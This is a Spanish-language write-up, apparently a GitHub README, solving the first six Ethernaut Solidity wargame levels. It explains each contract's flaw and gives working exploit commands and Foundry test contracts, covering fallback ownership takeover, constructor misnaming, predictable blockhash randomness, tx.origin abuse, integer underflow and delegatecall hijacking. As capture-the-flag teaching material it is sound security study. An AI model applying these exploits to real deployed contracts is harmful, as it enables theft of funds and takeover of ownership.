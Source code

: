 #1 Fallback

Es un contrato simple para contribuir, y al mayor contributor le dan el owner (si llama la funcion contribute) pero a cualquier address que transfiera al menos 1 wei y ya tenga al menos 1 wei contribuido a traves de la funcion `contribute()`, se le da el owner si hace un transfer directo. 

```solidity
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

para pasar el nivel simplemente corre los sigueintes comandos por la consola: 

```bash
await contract.contribute({value: 1})
await  web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  value: 1
})
```

#2 Fallout 

Es una copia del caso de Dynamic Pyramid, que era una compania que se renombro a rubixi, pero se les olbido cambiar el nombre del constructor, entonces cualquiera podia llamar al constructor viejo y reclamar el ownership.

para pasar el nivel simplemente corre los sigueintes comandos por la consola: 

```bash
await contract.Fal1out()
```

#3 Coinflip

Contrato que quiere hacer aleatorio, pero no lo logra, ya que usa en hasheo basico del block.number - 1 

```solidity
uint256 blockValue = uint256(blockhash(block.number - 1));
```

por lo tanto es predecible.

a continunacion hay un test simulando el ataque, para ganar mas de 10 veces: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {CoinFlip} from "src/CoinFlip.sol";
import {Test} from "forge-std/Test.sol";

contract DelegationTest is Test {

    CoinFlip coinFlipContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function setUp() external {
        coinFlipContract = new CoinFlip();
    }

    function test_3_coinflip() external {
        for(uint256 i = 0; i < 10; i++) {
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            coinFlipContract.flip(side);

            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 12);
        }

        assert(coinFlipContract.consecutiveWins() >= 10);
    }


}
```

#4 Telephone

contrato que llamando a la funcion changeOwner, simepre y cunado el caller sea un contrato, osea `tx.origin != msg.sender``, le da el owner al sender.

a continunacion hay un test simulando el ataque, para ganar mas de 10 veces: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Telephone} from "src/Telephone.sol";
import {Test} from "forge-std/Test.sol";

contract TelephoneTest is Test {

    Telephone telephone;
    Caller caller;

    address newOwner = makeAddr("newOwner");
    function setUp() external {
        telephone = new Telephone();
        caller = new Caller(address(telephone));
    }

    function test_telephone_4_ethernaut() external {
        caller.attack(newOwner);
        assertEq(telephone.owner(), newOwner);
    }

}

contract Caller {
    Telephone telephone;
    constructor(address telephone_) {
        telephone = Telephone(telephone_);
    }

    function attack(address newOwner_) external {
        telephone.changeOwner(newOwner_);
    }
}
```

#5 Token 

Contrato basico, empezamos con 20 tokens, la version es 0.6.0, por lo que no tiene el overflow check, por tanto, el checkeo que hace de `require(balances[msg.sender] - _value >= 0);`, si el value es mayor al balance del usuario, por ejemplo `21` empieza de atras para delante por tanto seria `type(uint256).max` ya que los uint256 no pueden ser negativos, entonces se le retaria al sender 21 y al restarsele 21 le qued aese valor mas grande, al to si se le sumaria el valor de _value.

a continuacion dejo la manera de explotarlo: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import {Token} from "src/Token.sol";
import {Test} from "forge-std/Test.sol";

contract TelephoneTest is Test {

    Token token;

    address newOwner = makeAddr("newOwner");
    function setUp() external {
        token = new Token(20);
    }

    function test_token_5_ethernaut() external {
        assert(token.balanceOf(address(this)) == 20);
        token.transfer(address(this), 21);
        assert(token.balanceOf(address(this)) > 20);
    }

}
```

#6 Delegation

El objetivo es reclamar el ownership del contrato, el contrato al recibir eth directamente (en el fallback), hace un delegate call al contrato delegate, a la msg.data especificada en el call, si le pasas Delegate.pwn.selector, la funcion pwn le da el ownership al sender, delegate call ejecuta la funcion de el contrato target pero en el contexto de este contrato, por tanto enviando ether, con la msg.data apuntando a la funcion pwn del contrato Delegeta, nos da el ownership del contrato Delegation. 

a continuacion dejo la manera de explotarlo: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Delegation,Delegate} from "src/Delegation.sol";
import {Test} from "forge-std/Test.sol";

contract DelegationTest is Test {

    Delegation delegation;
    Delegate delegate;

    address initialOwner = makeAddr("initialOwner");
    address newOwner = makeAddr("newOwner");
    function setUp() external {
        delegate = new Delegate(initialOwner);
        delegation = new Delegation(address(delegate));
    }

    function test_6_delegation() external {
        address(delegation).call{value: 1}(abi.encodeWithSelector(Delegate.pwn.selector));
        assertEq(delegation.owner(), address(this));
    }


}
```
